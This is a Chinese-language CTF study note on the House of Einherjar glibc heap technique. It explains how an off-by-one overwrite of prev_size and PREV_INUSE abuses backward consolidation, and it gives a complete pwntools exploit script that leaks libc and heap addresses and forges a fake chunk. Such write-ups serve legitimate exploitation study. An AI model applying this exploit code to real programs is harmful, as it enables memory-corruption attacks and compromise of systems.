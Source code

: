 # House of Einherjar

## 1.基本原理

引用一下：house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。其主要在于滥用 free 中的后向合并操作（合并低地址的 chunk），从而使得尽可能避免碎片化

即利用了 off by one 进行一字节的溢出，修改下一个堆块的 prev_size（在 use 状态下与前一个 chunk 是共享该区域的）和 PREV_INUSE 比特位，滥用 free 中的后向合并操作，从而实现 chunk 任意地址分配

因为 free 时会进行 unlink 操作，所以还需要绕过 unlink 的检查

unlink的基本检查：

* size大小的检查（glibc-2.26之后）：

  ```c
  if (__builtin_expect(chunksize(P) != prev_size(next_chunk(P)), 0))
  	malloc_printerr("corrupted size vs. prev_size");
  ```

  那么要使

  ```c
  fake_chunk_prev_size1 = fake_size
  ```
* 指针的检查：

  ```c
  if (__builtin_expect(FD->bk != P || BK->fd != P, 0))
      malloc_printerr(check_action, "corrupted double-linked list", P, AV);
  ```

  那么要使

  ```c
  fake_chunk->fd = &fake_chunk
  fake_chunk->bk = &fake_chunk
  ```
* glibc-2.29 起加入了 prevsize 的检查，house of einherjar 必须确保 fake chunk 的 fake_size 等于 chunk2 的 fake_prev_size2

  ```c
  /* consolidate backward */
  if (!prev_inuse(p)) {
    prevsize = prev_size (p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    if (__glibc_unlikely (chunksize(p) != prevsize))
      malloc_printerr ("corrupted size vs. prev_size while consolidating");
    unlink_chunk (av, p);
  }
  ```

![image-20250803221844706](./assets/2.House_of_Einherjar/image-20250803221844706.png)

## 2.利用思路

在glibc2.23的环境下：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

add_chunk(0, 0x208)
add_chunk(1, 0x208)
add_chunk(2, 0xf8)
add_chunk(3, 0x28)

delete_chunk(0)
delete_chunk(2)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)
edit_chunk(0, b'a'*8)
show_chunk(0)
heap_addr = u64(ru(("\x55", "\x56"))[-6:].ljust(8, b"\x00")) - 0x420
li("heap_addr", heap_addr)

edit_chunk(0, p64(libc.address + 0x39bb78))
add_chunk(0, 0x200)
add_chunk(2, 0xf8)

fake_chunk = b''
fake_chunk += p64(0)
fake_chunk += p64(0x411)
fake_chunk += p64(heap_addr + 0x10)
fake_chunk += p64(heap_addr + 0x10)
edit_chunk(0, fake_chunk)
edit_chunk(1, b'a' * 0x200 + p64(0x410) + p8(0))

delete_chunk(2)

gdb.attach(p)
pause()
it()
```

构造出来的效果：

![image-20250325235652201](./assets/2.House_of_Einherjar/image-20250325235652201.png)
